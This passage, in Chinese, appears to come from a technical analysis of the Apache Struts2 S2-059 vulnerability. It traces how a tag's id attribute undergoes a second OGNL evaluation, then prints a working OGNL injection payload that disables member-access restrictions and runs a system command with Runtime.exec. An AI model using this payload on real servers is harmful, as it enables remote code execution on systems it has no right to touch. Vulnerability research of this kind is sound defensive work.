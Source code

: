 到此，`<s:a id=%{id}>`标签的`id`属性就被赋值好了，即第一次的OGNL表达式求值就完成了。

再次回到`ComponentTagSupport#doStartTag()`方法中继续跟进，发现调用`Anchor#start()`方法，跟进该方法。一直跟进，发现在`UIBean#populateComponentHtmlId()`方法中，调用`Component#findStringIfAltSyntax()`对`Anchor`对象的`id`属性值进行处理，如下图：

<img src="pic/struts2_s2-059_4.png">

跟进去，发现最终在`Component#findValue()`方法中又看到了熟悉的`TextParseUtil.translateVariables()`。跟到这里就是第二次OGNL表达式求值，如下图：

<img src="pic/struts2_s2-059_5.png">

到此漏洞原理的部分就结束了。下面说一下命令执行PoC的构造。

## 可回显PoC

在Struts2 `2.5.16`版本，直接使用S2-057的PoC便可，但最前面的`$`符号要改为`%`。同样是发送两次请求。

```
%{
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#ct=#request['struts.valueStack'].context).
(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).
(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ou.setExcludedPackageNames('')).(#ou.setExcludedClasses('')).
(#ct.setMemberAccess(#dm)).
(#a=@java.lang.Runtime@getRuntime().exec('id')).
(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))
}
```

<img src="pic/struts2_s2-059_6.png">
